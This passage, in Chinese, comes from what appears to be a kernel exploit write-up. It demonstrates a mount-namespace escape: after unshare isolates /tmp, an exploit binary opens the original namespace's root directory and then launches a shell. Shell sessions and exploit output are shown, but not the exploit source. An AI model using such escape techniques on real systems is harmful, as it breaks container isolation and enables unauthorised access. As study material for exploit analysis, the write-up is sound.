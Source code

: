 首先创建一个 `/tmp/real` 文件，写入`aaaa`, 看一下当前shell的 mount namespace， 记住他的id为`4026531840`,

```
/home/pwn # echo aaaa &gt; /tmp/real
/home/pwn # echo $$
206
/home/pwn # ls -al /proc/$$/ns |grep mnt
lrwxrwxrwx    1 root     0                0 Apr 15 02:55 mnt -&gt; mnt:[4026531840]
/home/pwn # pstree -p |grep sh
init(1)---rcS(171)---sh(206)-+-grep(212)
```

接着用 `unshare` 创建一个新的 mount namespace, 然后mount 上 tmpfs, 可以看到namespace的 id是`4026532131`，和原来的不同， 这个时候就看不到原来namespace的目录下的东西了(想一下docker的隔离),

```
/home/pwn # unshare -m --uts /bin/sh
/bin/sh: can't access tty; job control turned off
/home/pwn # echo $$
213
/home/pwn # pstree -p |grep sh
init(1)---rcS(171)---sh(206)---sh(213)-+-grep(215)
/home/pwn # ls -al /proc/$$/ns |grep mnt
lrwxrwxrwx    1 root     0                0 Apr 15 02:56 mnt -&gt; mnt:[4026532131]
/home/pwn # mount -t tmpfs none /tmp
/home/pwn # ls /tmp
```

接着运行 exp， 它会打开`/` 目录，返回的`fd`是 5

```
/home/pwn # /exp
submitted 1, getevents done
cq_tail = 1
result: 5
launching shell
sh: can't access tty; job control turned off
/home/pwn # echo $$
223
/home/pwn # ls -al /proc/$$/fd/
total 0
dr-x------    2 root     0                0 Apr 15 02:58 .
dr-xr-xr-x    9 root     0                0 Apr 15 02:57 ..
lrwx------    1 root     0               64 Apr 15 02:58 0 -&gt; /dev/console
lrwx------    1 root     0               64 Apr 15 02:58 1 -&gt; /dev/console
lrwx------    1 root     0               64 Apr 15 02:58 2 -&gt; /dev/console
lr-x------    1 root     0               64 Apr 15 02:58 4 -&gt; /
l---------    1 root     0               64 Apr 15 02:58 5 -&gt; /
/home/pwn # cat /proc/$$/fd/5/tmp/real
aaaa
```

进去看一下可以发现这里打开的是原来namespace的`"/"` 目录。

linux 默认情况下所有的进程都会有一个系统默认的namespace, 也就是说本身linux就是一个最初的容器，我们新的namespace只是在最初的容器下创建一个新容器罢了。
